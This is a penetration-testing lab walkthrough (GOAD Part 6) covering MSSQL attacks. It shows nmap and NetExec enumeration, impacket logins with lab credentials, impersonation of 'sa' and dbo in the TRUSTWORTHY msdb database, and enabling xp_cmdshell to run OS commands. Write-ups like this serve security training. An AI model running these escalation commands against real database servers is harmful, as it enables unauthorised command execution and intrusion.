# GOAD Part 6 - MSSQL

# **Enumerate the MSSQL servers**

Let’s say we are in the begging of a pentesting and we have a network  and we want to find out if theres any MSSQL servers in the network.
We can start by enumerating MSSQL using NMAP

`sudo nmap -Pn -p 1433 -sV -sC 10.4.10.10-23`





It’s possible to see above that our NMAP scan output shows us 2 hosts configured with MSSQL service, ***Braavos.essos.local*** and ***castleblack.north.sevenkingdoms.local*** are running as MSSQL server.

since we already know that we do have 2 hosts running MSSQL service, we can now start by enumerating the service unauthenticated and also authenticated using NetExec.

## [NetExec ](https://github.com/Pennyw0rth/NetExec)

This project was initially created in 2015 by @byt3bl33d3r, known as CrackMapExec. In 2019 @mpgn_x64 started maintaining the project for the next 4 years, adding a lot of great tools and features. In September 2023 he retired from maintaining the project. So from now on I’ll be using Netexec instead of CrackMapExec.

### Enumerating MSSQL unauthenticated

We already know that we do have 2 servers running as MSSQL server so we can try to enumerate it using NetExec unauthenticated.

`netexec mssql 10.4.10.22-23`


### Enumerating MSSQL authenticated

Assuming that we do have a valid user on the domain, we can also use NetExec to enumerate the service using a valid user.

`netexec mssql 10.4.10.22 -u 'samwell.tarly' -p 'Heartsbane' -d 'north.sevenkingdoms.local’`


The output above shows us a` [+] `signal, it means that this user has access to MSSQL database.

Since we do have a valid user for this MSSQL database, we can use [mssqlclient.py](http://mssqlclient.py/) from impacket to login into MSSQL service.

`mssqlclient.py -windows-auth 'north.sevenkingdoms.local/samwell.tarly:Heartsbane@castelblack.north.sevenkingdoms.local'`



We have accessed the MSSQL server. that’s great.

### Enumerating MSSQL

Once we are inside MSSQL server using [mssqlclient.py](http://mssqlclient.py/) from impacket, we do have lots of options to start our MSSQL enumeration.

Let’s start by enumerating login users.

`enum_logins`

The just issued command will make the following request to MSSQL database:

```
select r.name,r.type_desc,r.is_disabled, sl.sysadmin, sl.securityadmin, 
sl.serveradmin, sl.setupadmin, sl.processadmin, sl.diskadmin, sl.dbcreator, sl.bulkadmin 
from  master.sys.server_principals r 
left join master.sys.syslogins sl on sl.sid = r.sid 
where r.type in ('S','E','X','U','G')
```



This is the output we get from the database query. This output shows that we are simply basic viewer users, meaning we don’t have high privilege role in this database.

# **Impersonate - execute as login**

Let’s see if we can enumerate some valid impersonation here. 

`enum_impersonate`

the command issued above will make the following queries into the MSSQL database listing all login with impersonation permission:

```
SELECT 'LOGIN' as 'execute as','' AS 'database', 
pe.permission_name, pe.state_desc,pr.name AS 'grantee', pr2.name AS 'grantor' 
FROM sys.server_permissions pe 
JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_Id 
JOIN sys.server_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
```

The same request will also issue the request on each database in this MSSQL server:

```
use <db>;
SELECT 'USER' as 'execute as', DB_NAME() AS 'database',
pe.permission_name,pe.state_desc, pr.name AS 'grantee', pr2.name AS 'grantor' 
FROM sys.database_permissions pe 
JOIN sys.database_principals pr ON pe.grantee_principal_id = pr.principal_Id 
JOIN sys.database_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
```

> Login and User, what is the difference ?

- A “Login” grants the principal entry into the **SERVER**
- A “User” grants a login entry into a single **DATABASE**
- A “Login” grants the principal entry into the **SERVER**
- A “User” grants a login entry into a single **DATABASE**
*“SQL Login is for Authentication and SQL Server User is for Authorization. Authentication can decide if we have permissions to access the server or not and Authorization decides what are different operations we can do in a database. Login is created at the SQL Server instance level and User is created at the SQL Server database level. We can have multiple users from a different database connected to a single login to a server.”*



As we can see from the output, our user Samwell.Tarly can make queries to this database as user `sa`.
The **`sa`** account is the built-in super user account for MSSQL and has full administrative privileges.



So `Samwell.Tarly` user can impersonate user `sa`. Let’s impersonate `sa` user and execute OS commands with ***xp_cmdshell***.

`exec_as_login sa` = It’s equivalent to `execute as login='sa';`query.
`enable_xp_cmdshell` = It’s equivalent to `exec master.dbo.sp_configure 'show advanced options',1;RECONFIGURE;exec master.dbo.sp_configure 'xp_cmdshell', 1;RECONFIGURE;`query.
`xp_cmdshell whoami` = I’ts equivalent to `exec master..xp_cmdshell 'whoami'` query.




As stated on the screenshot above, as can see that we were able to impersonate the high privileged user `sa` and we can now execute OS commands as `sa`.
Now let’s do the enumeration as `sa` user.

We can see below that we can execute all kinds of OS commands and here we do have an example. we can see everything in the dir `C:\`.

`EXEC xp_cmdshell "dir C:\"
xp_cmdshell dir C:\`



### Let’s Continue our MSSQL enumeration

`enum_logins`

Now it’s possible to see that we can now see away more users since we are requesting with a highly privileged user.



It’s possible to see from the screenshot above several users, and we can see as well that user `jon.snow` is SysAdmin since we can see its `sysadmin` status to `1`same as `sa` user.

Let’s try to impersonate other users as well, let’s see if there’s another impersonation privilege here.

`enum_impersonate`



- As sysadmin user `sa` we can see all the information in the database and so the others users with impersonation privileges.
- Another way to get in could be to access as brandon.stark and do `execute as login` on user jon.snow.
# I**mpersonate - Execute as user**

Now this time let’s connect to the DB as `arya.stark`.

`mssqlclient.py -windows-auth 'north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local'`



Enumerating databases.
`select name from master.dbo.sysdatabases;`


Let’s use master database.
`use master;`

Now let’s enumerate and see if the user `ayra.stark` can impersonate other user.

`enum_impersonate`


Our enumeration shows us that `arya.stark `can impersonate `dbo` in ***master*** and ***msdb*** database.

We use master db and impersonate user dbo but we can’t execute OS Commands. Errors are shown on the screenshot below.



Now let’s change the database to `msdb`. 

`use msdb;`

The difference between the two databases is that `msdb` got the trustworthy property set, trustworthy property is set by default on `msdb` database.

`enum_db`



So putting things together after enumeration.
based on the `enum_impersonate` command we can see that we user `ayra.stark` can impersonate `dbo` on `msdb` database and since trustworthy set is enabled by default on `msdb` database, we can take advantage by abusing this and get OS command execution

`use msdb
exec_as_user dbo
enable_xp_cmdshell
xp_cmdshell whoami`



`xp_cmdshell dir C:\
EXEC xp_cmdshell "dir C:\"`


---

*Back to [GOAD Overview](../README.md)*
